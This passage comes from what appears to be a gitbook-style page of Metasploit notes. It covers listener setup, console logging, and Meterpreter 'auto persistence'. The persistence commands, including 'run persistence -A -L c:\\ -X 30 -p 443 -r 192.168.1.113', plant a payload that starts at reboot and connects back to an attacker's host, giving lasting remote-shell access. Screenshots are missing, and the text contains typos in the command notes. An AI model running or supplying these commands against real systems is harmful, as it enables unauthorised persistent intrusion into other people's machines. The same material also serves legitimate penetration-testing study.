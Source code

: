 in listener set lhost to your local ip address:

![](<../.gitbook/assets/image (275) (1) (1) (1).png>)

run the attack:

![](<../.gitbook/assets/image (291) (1) (1).png>)

using tor is extremely slow ad your session may timeout, play around with timeout values.

## <mark style="color:red;">Logging</mark>

every command will be logged in a file named console.log in `~/.msf4/logs`

```
se consolelogging true
```

## <mark style="color:red;">Auto Persistence</mark>

```
run persistence –A –L [directory to put payload] -X [connection attempt intervals/sec]  –p [attacker port] –r [attaacker ip]
```

```
-A for auro starting listener
-X for starting at reboot
 
# for help:
run persistance -h 
#run persistence –A –L c:\\ -X 30 –p 443 –r 192.168.1.113
```
